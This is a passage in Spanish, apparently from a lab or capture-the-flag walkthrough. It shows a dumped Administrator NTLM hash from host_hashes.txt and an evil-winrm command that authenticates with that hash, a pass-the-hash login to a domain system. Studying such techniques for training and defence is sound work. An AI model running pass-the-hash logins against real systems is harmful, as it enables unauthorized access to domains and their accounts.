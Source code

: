 ![Imagen017](17.jpeg)

Si le hacemos un cat al archivo generado, host_hashes.txt, podremos ver como decíamos los hashes de las cuentas del dominio, entre ellos el del Administrador. Pues ya estamos casi. Tenemos el hash del Administrador, por lo que podemos utilizar por ejemplo la herramienta Evil-WinRM, que permite la autenticación con hashes NTLM. Esto significa que podemos usarlo para conectarnos a un sistema remoto sin necesidad de descifrar las contraseñas. 

```
Usuario: administrator
Hash: 0e0363213e37b94221497260b0bcb4fc
```


```bash
evil-winrm -i <IP_Objetivo> -u administrator -H "Hash_administrator"
```

![Imagen018](18.jpeg)
